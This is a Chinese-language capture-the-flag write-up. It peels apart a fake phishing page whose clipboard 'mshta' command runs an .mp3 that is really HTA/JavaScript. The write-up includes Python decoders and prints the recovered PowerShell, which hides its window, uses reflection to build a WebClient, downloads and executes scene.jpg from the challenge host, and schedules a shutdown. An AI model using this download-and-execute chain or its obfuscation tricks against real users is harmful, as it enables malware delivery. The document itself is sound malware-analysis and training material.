



# I'm a human WP

## 题目简述

题目伪装成钓鱼网页，页面会把一条 `mshta` 命令写入剪贴板，引导用户执行远程 `audio_example.mp3`。这个 `.mp3` 不是音频分析载体，而是被当作 HTA/JavaScript 脚本执行；脚本隐藏窗口后拼接下一阶段 PowerShell，并继续通过十六进制和 XOR 还原最终 payload。

解题目标是沿着网页剪贴板命令、HTA/JS、混淆 PowerShell 逐层还原脚本。最终 flag 混在 PowerShell 变量与弹窗界面文本附近，关键是还原脚本执行链和变量内容，而不是从音频格式中提取隐写信息。

## 解题过程

- 
- 

I'm a human WP

虚假的钓鱼网站，按照提示操作之后会出现弹窗和关机提醒，所以是执行了恶意的powershell，
也不难猜到flag就混淆在这些powershell之中。


网站拷贝了一段命令道剪切板中


  mshta https://sprg40sctlzv.challenge.jlu-terminal.site/audio_example.mp3


所以肯定是在mp3里面藏了小料


MP3里面藏了HTA/JS，先将窗口隐藏，然后自定义了一堆变量，送入String.fromCharCode(...)，


把下一阶段指令拼接出来，最后执行eval(SxhM)。
还原第一层javascript之后，能得到如下代码：


```javascript
  function ioRjQN(FVKq){

      var ohyLbg= "";

      for (var emGK = 0; emGK < FVKq.length; emGK++){

          var ndZC = String.fromCharCode(FVKq[emGK] - 601);

          ohyLbg = ohyLbg + ndZC


      }


      return ohyLbg


  }
```


所以就是对实际字符码 - 601，然后就能得到下一阶段指令：


```powershell
  ([regex]::Matches('<hex string>','.{2}') | % {

      [char]([Convert]::ToByte($_.Value,16) -bxor '204')


  }) -join ''
```


这是一段powershell,操作如下：

 1. 取出一长串十六进制字符串

 2. 每两个字符作为一组
 3. 转成字节
 4. 每个字节与 204 （即 0xCC ）做 XOR

 5. 再转回字符
 6. 拼接成最终 PowerShell

整体解密脚本如下：


```python
  from pathlib import Path


  import re


def main() -> None:

    data = Path("audio_example.mp3").read_bytes()


    script_start = data.lower().find(b"<script>")

    script_end = data.lower().find(b"</script>", script_start)

    if script_start == -1 or script_end == -1:


        raise SystemExit("embedded script not found")


    script = data[script_start:script_end + len(b"
</script>")].decode("latin1")


    vars_map = dict(re.findall(r"([A-Za-z]{2})=(\d+);", script))

    expr = re.search(r"String\.fromCharCode\((.*?)\);eval", script, re.S)


    if not expr:

        raise SystemExit("stage-1 charcode payload not found")


    chars = []

    for part in expr.group(1).split(","):

        part = part.strip()


        if not part:


            continue


        chars.append(chr(int(vars_map.get(part, part))))

    stage2 = "".join(chars)


Path("audio_stage2.js").write_text(stage2, encoding="utf-8")


    nums = re.search(r"ioRjQN\(\[(.*?)\]\)", stage2, re.S)


    if not nums:

        raise SystemExit("stage-2 numeric payload not found")


    stage3 = "".join(chr(int(x.strip()) - 601) for x in
nums.group(1).split(",") if x.strip())

    Path("audio_stage3.js").write_text(stage3, encoding="utf-8")


    hexs = re.search(r"Matches\('([0-9a-f]+)'", stage3)


    if not hexs:

        raise SystemExit("stage-3 hex payload not found")


    stage4 = "".join(

        chr(int(hexs.group(1)[i:i + 2], 16) ^ 204)

        for i in range(0, len(hexs.group(1)), 2)


    )

    Path("audio_stage4.ps1").write_text(stage4, encoding="utf-8")

    print(stage4)


if __name__ == "__main__":


    main()
```

解密得到的powershell如下：


```powershell
  iexStart-Process
  "$env:SystemRoot\SysWOW64\WindowsPowerShell\v1.0\powershell.exe" -WindowStyle
  Hidden -ArgumentList '-w','h','-ep','Unrestricted','-Command',"Set-Variable 3
  'https://sprg40sctlzv.challenge.jlu-terminal.site/scene.jpg';SI Variable:/Z4D
  'Net.WebClient';cd;SV c4H (.`$ExecutionContext.InvokeCommand.
  ((`$ExecutionContext.InvokeCommand|Get-Member)
  [2].Name).Invoke(`$ExecutionContext.InvokeCommand.
  ((`$ExecutionContext.InvokeCommand|Get-Member|Where{(GV _).Value.Name-
  clike'*dName'}).Name).Invoke('Ne*ct',1,1))(LS Variable:/Z4D).Value);SV A
  ((((Get-Variable c4H -ValueO)|Get-Member)|Where{(GV _).Value.Name-
  clike'*wn*d*g'}).Name);&([ScriptBlock]::Create((Get-Variable c4H -ValueO).
  ((Get-Variable A).Value).Invoke((Variable 3 -Val))))";
```


这段powershell主要内容如下：

 1. 启动一个PowerShell：


  C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe


 2. 把 scene.jpg 的 URL 存入变量：


  https://sprg40sctlzv.challenge.jlu-terminal.site/scene.jpg


 3. 利用变量别名和反射构造 Net.WebClient
 4. 通过 $ExecutionContext.InvokeCommand 等方式混淆 New-Object 、DownloadString 等
  关键调用

 5. 下载 scene.jpg 的文本内容
 6. 用 [ScriptBlock]::Create(...) 把下载回来的文本当作 PowerShell 再执行
   换句话说，audio_example.mp3 的真实角色只是一个加载器，真正的最终载荷在
    scene.jpg 里。


   这个scene.jpg就是一整段powershell。
    scene.jpg 的开头先用一些变量计算出数字表：


$u = 0

    $b = 1

    $q = 2

    $z = 3

    $o = 4

    $d = 5

    $h = 6

    $e = 7

    $i = 8

    $l = 9

    $x = $q * $z = 6
  随后脚本又构造出：

    $g = "[char]"

    $r = "iex"
  接下来真正的载荷会以这种形式出现：


  " $r ($g...+$g...+$g...) " | .$r


它的工作方式是：

 1. 每个 $g... 实际都对应一个 [char]数字
 2. 所有 [char]数字 拼起来就是最终脚本

 3. 再把这个拼好的脚本交给 iex
  所以这层混淆本质上就是：


 变量数字表 -> [char]NNN 串 -> PowerShell 源码


解密脚本如下：


```python
  from pathlib import Path


  import re


  def main() -> None:

      text = Path("scene.jpg").read_text(encoding="latin1")


# The payload is built from a small digit dictionary and a long "$g..."
chain.

    digits = {"u": "0", "b": "1", "q": "2", "z": "3", "o": "4", "d": "5", "h":
"6", "e": "7", "i": "8", "l": "9", "x": "6"}

    m = re.search(r';\s*"\s*\$r\s*\((.*)\)\s*"\s*\|\s*\.\$r\s*$', text, re.S)


    if not m:


        raise SystemExit("scene payload not found")


    expr = m.group(1)

    parts = [p.strip() for p in expr.split("+") if p.strip()]

    out = []


    for part in parts:


        if not part.startswith("$g"):

            raise SystemExit(f"unexpected part: {part[:40]}")

        names = re.findall(r"\$([a-z])", part[2:])


        out.append(chr(int("".join(digits[n] for n in names))))


    result = "".join(out)

    Path("scene_stage2.ps1").write_text(result, encoding="utf-8")


    print(result)


if __name__ == "__main__":


    main()
```


解密出来的内容如下：


```powershell
  $DebugPreference = $ErrorActionPreference = $VerbosePreference =
  $WarningPreference = "SilentlyContinue"


  [void]
  [System.Reflection.Assembly]::LoadWithPartialName("System.Windows.Forms")


  [void] [System.Reflection.Assembly]::LoadWithPartialName("System.Drawing")


  shutdown /s /t 600 >$Null 2>&1


  $Form = New-Object System.Windows.Forms.Form

  $Form.Text = "Ciallo～(∠·ω< )⌒★"

  $Form.StartPosition = "Manual"

  $Form.Location = New-Object System.Drawing.Point(40, 40)

  $Form.Size = New-Object System.Drawing.Size(720, 480)

  $Form.MinimalSize = New-Object System.Drawing.Size(720, 480)

  $Form.MaximalSize = New-Object System.Drawing.Size(720, 480)

  $Form.FormBorderStyle = "FixedDialog"

  $Form.BackColor = "#0077CC"

  $Form.MaximizeBox = $False

  $Form.TopMost = $True


  $fF1IA49G = "Spirit{B3WAR3_OF_Phi5hing-w3bsIT3558d76eaf}"

  $fF1IA49G = "N0pe"


$Label1 = New-Object System.Windows.Forms.Label

$Label1.Text = ":)"


...

$Label2.Text = "这里没有 flag；这个窗口是怎么出现的呢，flag 就在那里"

$Label3.Text = "你的电脑将在 10 分钟后关机，请保存你的工作"


...
```


$Form.ShowDialog() | Out-Null

### 脚本片段证据

下面这张图对应十六进制/脚本片段现场。正文已将对应解码流程转写为文本和代码块，图片保留用于复核原始脚本上下文。



## 方法总结

- 核心技巧：从剪贴板命令和 `mshta` 入口追踪到嵌入脚本，再按 JavaScript 字符码偏移、PowerShell 十六进制 XOR 等层次还原最终脚本。
- 识别信号：网页诱导复制运行 `mshta`、`.mp3`/图片等非脚本扩展名被当作 HTA 执行时，应优先检查文件内是否嵌入 HTML/JS/PowerShell。
- 复用要点：恶意脚本题不要只看表面扩展名；按执行链逐层提取可执行内容，最后再判断变量赋值、UI 文本和假 flag。
